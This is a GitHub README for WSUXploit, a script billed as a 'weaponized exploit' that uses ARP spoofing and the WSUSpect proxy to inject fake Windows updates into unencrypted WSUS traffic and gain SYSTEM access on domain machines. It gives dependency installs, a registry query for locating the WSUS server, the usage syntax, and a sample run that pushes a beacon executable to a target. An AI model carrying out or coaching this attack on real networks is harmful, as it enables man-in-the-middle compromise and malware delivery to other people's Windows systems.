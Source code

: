 # WSUXploit

Written by Marcio Almeida to weaponize the use of [WSUSpect Proxy](https://github.com/ctxis/wsuspect-proxy/) created by Paul Stone and Alex Chapman in 2015 and public released by [Context Information Security](http://www.contextis.com)

## Summary

This is a MiTM weaponized exploit script to inject 'fake' updates into non-SSL WSUS traffic.
It is based on the WSUSpect Proxy application that was introduced to public on the Black Hat USA 2015 presentation, 'WSUSpect – Compromising the Windows Enterprise via Windows Update'

Please read the White Paper and the presentation slides listed below:

- White paper: http://www.contextis.com/documents/161/CTX_WSUSpect_White_Paper.pdf
- Slides: http://www.contextis.com/documents/162/WSUSpect_Presentation.pdf

## Prerequisites and Installation

You'll need install some programs used by this attack. You can do this by running:
```
sudo apt-get install samba dsniff iptables python
```

PS: Kali Linux builds already have all the before mentioned dependencies.

WSUSpect Proxy requires the Python Twisted library. You can install it by running:
```
pip install twisted
```

Clone this repository and the WSUSpect Proxy repository. You can do it by running:
```
# clone WSUXploit repository
git clone https://github.com/pimps/wsuxploit.git

# enter on wsuxploit directory
cd wsuxploit

# clone WSUSpect Proxy repository
git clone https://github.com/ctxis/wsuspect-proxy.git
```

You're ready to go now :-)

## Usage

First things first...

Discover the WSUS address inside of the network that you're attacking and verify if it uses http protocol. If yes, you can use this exploit to get SYSTEM access to any windows target inside of that domain.

If you already have access to a Domain Machine, you can easily get the address of the WSUS server executing the following command:

```
reg query HKLM\Software\Policies\Microsoft\Windows \WindowsUpdate /v WUServer
```

You should see a response similar to that:

```
WUServer   REG_SZ  http://10.1.1.1:8535/
```

After confirm that the network you're attacking uses HTTP for Windows Update, you're good to go.

```
root@kali-mini:/tmp/wsuxploit# ./wsuxploit.sh 
 __      __  _____________ _______  ___      .__         .__  __   
/  \    /  \/   _____/    |   \   \/  /_____ |  |   ____ |__|/  |_ 
\   \/\/   /\_____  \|    |   /\     /\____ \|  |  /  _ \|  \   __\ 
 \        / /        \    |  / /     \|  |_> >  |_(  <_> )  ||  |  
  \__/\  / /_______  /______/ /___/\  \   __/|____/\____/|__||__|  
       \/          \/               \_/__|                         by pimps
Usage:
./wsuxploit.sh <TARGET_IP> <WSUS_IP> <WSUS_PORT> <BINARY_PATH>

Example:
./wsuxploit.sh 192.168.0.101 10.0.0.85 80 /tmp/payload.exe

root@kali-mini:/tmp/wsuxploit# ./wsuxploit.sh 192.168.0.101 10.1.1.1 8535 /tmp/beacon.exe
 __      __  _____________ _______  ___      .__         .__  __   
/  \    /  \/   _____/    |   \   \/  /_____ |  |   ____ |__|/  |_ 
\   \/\/   /\_____  \|    |   /\     /\____ \|  |  /  _ \|  \   __\ 
 \        / /        \    |  / /     \|  |_> >  |_(  <_> )  ||  |  
  \__/\  / /_______  /______/ /___/\  \   __/|____/\____/|__||__|  
       \/          \/               \_/__|                         by pimps
[*] Preparing exploit files...
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Running WSUSpect proxy...
2017-06-30 09:46:59+1000 [-] Log opened.
2017-06-30 09:46:59+1000 [-] InterceptingProxyFactory starting on 9090
2017-06-30 09:46:59+1000 [-] Starting factory <intercepting_proxy.InterceptingProxyFactory instance at 0xb650ce8c>

```

Wait for the Auto-Update requests, they happen by default every 23h and for the Important Update installs, they happen by default every 24h.

